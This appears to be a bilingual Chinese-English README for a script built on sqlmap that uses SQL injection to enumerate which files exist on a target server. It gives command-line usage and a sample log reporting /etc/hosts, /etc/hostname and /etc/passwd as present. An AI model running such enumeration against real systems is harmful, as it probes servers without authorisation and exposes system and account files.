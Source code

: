# FileReader
基于sqlmap的利用sql注入漏洞遍历文件是否存在的脚本
A script based on sqlmap that uses sql injection vulnerabilities to traverse the existence of a file

## usage
需要注意，在盲注时如果开启多线程会导致不稳定  
It should be noted that if multi-threading is enabled during blind injection, it will cause instability
```
usage: test2.py [-h] [-u URL | -r HEADERS_DATA] [-w FILE] [-t THREADS]

By zongdeiqianxing; Email: jshahjk@163.com

optional arguments:
  -h, --help       show this help message and exit
  -u URL
  -r HEADERS_DATA  HTTP request header
  -w FILE          wordlist containing file path
  -t THREADS       threads count
```

## show
```
$ python3 TraverseFilesBySQLInjection.py -r 1.txt -w linux.txt 
2021-10-23 23:01:51,211 - __main__ - INFO - The program has been started, if found readable files, it will be displayed, please wait..
2021-10-23 23:02:21,234 - __main__ - INFO - /etc/hosts file exists
2021-10-23 23:02:41,058 - __main__ - INFO - /etc/hostname file exists
2021-10-23 23:03:00,863 - __main__ - INFO - /etc/passwd file exists
```
